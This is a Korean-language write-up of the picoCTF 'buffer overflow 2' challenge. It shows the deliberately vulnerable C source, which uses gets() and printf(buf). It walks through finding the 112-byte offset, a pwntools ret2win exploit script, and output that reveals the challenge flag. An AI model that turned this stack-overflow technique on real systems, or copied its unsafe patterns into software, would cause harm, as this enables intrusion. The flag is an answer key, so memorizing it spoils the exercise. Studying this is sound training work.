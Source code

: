 # [buffer overflow 2](https://play.picoctf.org/practice/challenge/259?category=6&originalEvent=70&page=1)
<br />

**Discription:**
> Control the return address and arguments
<br />

**Source Code:**
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```
<br />

**Binary Protections:**
```yaml
vuln: ELF 32-bit LSB executable, Intel i386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=a429aa852db1511dec3f0143d93e5b1e80e4d845, for GNU/Linux 3.2.0, not stripped

[*] '/home/kali/pico/buffer_overflow_2/vuln'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
<br />

## 1. 오프셋 구하기
문제를 풀이하기 위해서는 gets(buf)에서 발생하는 스택 버퍼오버플로우 취약점으로 `RET` 주소를 `win`으로 덮고 실행해야 합니다. 이때, win의 인자와 문제에서 요구하는 값과 일치해야 FLAG가 출력됩니다. 
```bash
$ python3 -q
>>> from pwn import *
>>> p = process("./vuln")
[+] Starting local process './vuln': pid 754
>>> p.sendline(cyclic(200))
>>> p.wait()
[*] Process './vuln' stopped with exit code -11 (SIGSEGV) (pid 754)
>>> Corefile("./core.754")
[+] Parsing corefile...: Done
[*] '/home/kali/pico/core.754'
    Arch:      i386-32-little
    EIP:       0x62616164
    ESP:       0xff84a760
    Exe:       '/home/kali/pico/vuln' (0x8048000)
    Fault:     0x62616164
Corefile('/home/kali/pico/core.754')
>>> cyclic_find(0x62616164)
112
```
오프셋은 112 입니다.

> [!NOTE]
> 위 처럼 구할 수 있는 이유?
> <br />
>
> 프로그램 종료 전 RET은 스택 최상단에 있는 복귀 주소(Return address)를 꺼내어 EIP에 넣고 프로그램의 흐름을 호출자(main)로 되돌립니다. 그러나 패턴 문자열로 버퍼 오버플로우를 일으키면, 이 복귀 주소가 패턴 데이터로 덮이게 됩니다. 그 결과 RET은 정상적인 복귀 주소 대신 패턴의 일부를 EIP에 복사하게 되고, 프로그램은 잘못된 주소로 점프하려다 크래시가 발생하게 됩니다. 이때 EIP에 저장된 값이 패턴 문자열의 몇 번째 위치인지 확인하면, 버퍼의 시작점에서 부터 Return Address까지의 정확한 오프셋을 계산할 수 있습니다.
<br />


## 2. `win()`함수 인자의 정확한 오프셋 확인하기

```asm
   0x8049371 <vuln+57>    ret

   0x8049300 <win+106>    lea    eax, [ebp - 0x4c]
   0x8049303 <win+109>    push   eax
   0x8049304 <win+110>    call   fgets@plt                   <fgets@plt>

   0x8049309 <win+115>    add    esp, 0x10
 ► 0x804930c <win+118>    cmp    dword ptr [ebp + 8], 0xcafef00d
   0x8049313 <win+125>    jne    win+153                     <win+153>

   0x8049315 <win+127>    cmp    dword ptr [ebp + 0xc], 0xf00df00d
   0x804931c <win+134>    jne    win+156                     <win+156>
```
프로그램을 실행하고 112만큼 값을 입력했을 때,위 결과로 첫 번째 인자는 `ebp + 0x8`에 위치하고, 두 번째 인자는 `ebp + 0xc`에 위치하는 것을 알 수 있습니다. 분석한 정보를 가지고 공격 코드를 작성할 수 있습니다.

```python
from pwn import *

p = process("./vuln")
# p = remote("saturn.picoctf.net", 55191)

pay = b"A"*112
pay += p32(0x8049296)  # win addr
pay += b"A"*4
pay += p32(0xCAFEF00D) # arg1 (ebp + 0x8)
pay += p32(0xF00DF00D) # arg2 (ebp + 0xc)

p.send(pay)
p.interactive()
```
```bash
$ python3 test.py
[+] Opening connection to saturn.picoctf.net on port 55191: Done
[*] Switching to interactive mode
Please enter your string:
$
\xf0\xfe\xcaAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04\x08AAAA
picoCTF{argum3nt5_4_d4yZ_3c04eab0}[*] Got EOF while reading in interactive
$
```
